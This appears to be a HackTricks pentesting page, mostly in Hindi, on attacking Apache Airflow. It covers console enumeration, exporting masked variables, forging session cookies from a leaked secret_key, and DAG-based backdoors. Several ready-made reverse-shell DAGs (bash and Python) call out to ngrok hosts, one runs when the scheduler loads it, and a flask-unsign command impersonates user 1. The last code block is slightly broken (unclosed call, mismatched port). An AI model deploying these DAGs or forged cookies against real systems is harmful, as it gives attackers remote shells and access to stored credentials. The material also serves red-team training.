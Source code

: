 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइनों या वर्कफ़्लो को व्यवस्थित और शेड्यूल करने के लिए एक प्लेटफ़ॉर्म के रूप में कार्य करता है**। डेटा पाइपलाइनों के संदर्भ में "व्यवस्थापन" शब्द का अर्थ विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वयित और प्रबंधित करने की प्रक्रिया है। इन व्यवस्थित डेटा पाइपलाइनों का प्राथमिक उद्देश्य संसाधित और उपभोग करने योग्य डेटा सेट प्रदान करना है। इन डेटा सेटों का व्यापक रूप से कई अनुप्रयोगों द्वारा उपयोग किया जाता है, जिसमें व्यवसायिक बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बड़े डेटा अनुप्रयोगों के कार्य करने के लिए आधारभूत हैं।

बुनियादी रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (घटना, क्रोन) **होगा**।

### Local Lab

#### Docker-Compose

आप **docker-compose config file का उपयोग कर सकते हैं** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) **एक पूर्ण apache airflow docker वातावरण लॉन्च करने के लिए। (यदि आप MacOS पर हैं, तो सुनिश्चित करें कि docker VM को कम से कम 6GB RAM दें)**।

#### Minikube

**apache airflo**w को चलाने का एक आसान तरीका है **इसे minikube के साथ चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow अपनी कॉन्फ़िगरेशन में **संवेदनशील जानकारी** संग्रहीत कर सकता है या आप कमजोर कॉन्फ़िगरेशन पा सकते हैं:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow पर हमला करने से पहले आपको **अनुमतियों का काम कैसे होता है** समझना चाहिए:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

यदि आपके पास **वेब कंसोल तक पहुंच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

* **Variables** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
* **Connections** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
* उन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**Configuration**](./#airflow-configuration) (संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड यहां संग्रहीत किए जा सकते हैं)
* **उपयोगकर्ताओं और भूमिकाओं** की सूची
* **प्रत्येक DAG का कोड** (जिसमें दिलचस्प जानकारी हो सकती है)

#### Retrieve Variables Values

Variables को Airflow में संग्रहीत किया जा सकता है ताकि **DAGs** उनके मानों को **एक्सेस** कर सकें। यह अन्य प्लेटफार्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल का मान दिखाएगा, हालाँकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, यह संभव है कि **वेरिएबल्स की एक सूची** सेट की जाए जिनका **मान** **अस्ट्रिस्क** के रूप में **GUI** में दिखाई देगा।

![](<../../.gitbook/assets/image (164).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB एक्सेस की आवश्यकता है), **मनमाने DAG** निष्पादन, **API** के माध्यम से वेरिएबल्स एंडपॉइंट तक पहुंच (API को सक्रिय करना आवश्यक है), और **यहां तक कि GUI स्वयं!**\
GUI से उन मानों तक पहुंचने के लिए बस **वेरिएबल्स का चयन करें** जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, इसे **खोज फ़िल्टरिंग** का उपयोग करके जब तक आप इसे प्राप्त न कर लें:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

यदि **`expose_config`** कॉन्फ़िगरेशन **True** पर सेट है, तो **भूमिका उपयोगकर्ता** और **ऊपर** से **वेब में कॉन्फ़िग** को **पढ़** सकते हैं। इस कॉन्फ़िगरेशन में, **`secret_key`** प्रकट होता है, जिसका अर्थ है कि इस वैध के साथ कोई भी उपयोगकर्ता **अपना स्वयं का साइन किया हुआ कुकी बना सकता है ताकि किसी अन्य उपयोगकर्ता खाते का अनुकरण कर सके**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लिखने की अनुमति** है जहाँ **DAGs सहेजे जाते हैं**, तो आप बस **एक बना सकते हैं** जो आपको एक **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल एक **airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होने वाला है:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG बैकडोर (Airflow शेड्यूलर में RCE)

यदि आप कुछ को **कोड की जड़ में निष्पादित करने के लिए सेट करते हैं**, तो इस लेखन के समय, इसे **शेड्यूलर द्वारा निष्पादित किया जाएगा** DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

यदि आप **DAG क्लस्टर के अंदर एक मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फ़ोल्डर में नए **DAGs स्क्रिप्ट** बना सकते हैं और ये **DAG क्लस्टर के अंदर बाकी मशीनों में दोहराए जाएंगे**।

#### DAG Code Injection

जब आप GUI से एक DAG को निष्पादित करते हैं, तो आप इसे **आर्गुमेंट्स** पास कर सकते हैं।\
इसलिए, यदि DAG को सही तरीके से कोड नहीं किया गया है, तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की तलाश शुरू करने के लिए जो कुछ जानने की आवश्यकता है, वह यह है कि** **पैरामीटर्स** को कोड **`dag_run.conf.get("param_name")`** के साथ **एक्सेस किया जाता है**।

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकार के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि उन्हें उदाहरण के लिए एक bash कमांड के अंदर उपयोग किया जाता है, तो आप एक कमांड इंजेक्शन कर सकते हैं।

{% hint style="success" %}
सीखें और अभ्यास करें AWS हैकिंग:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
सीखें और अभ्यास करें GCP हैकिंग: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
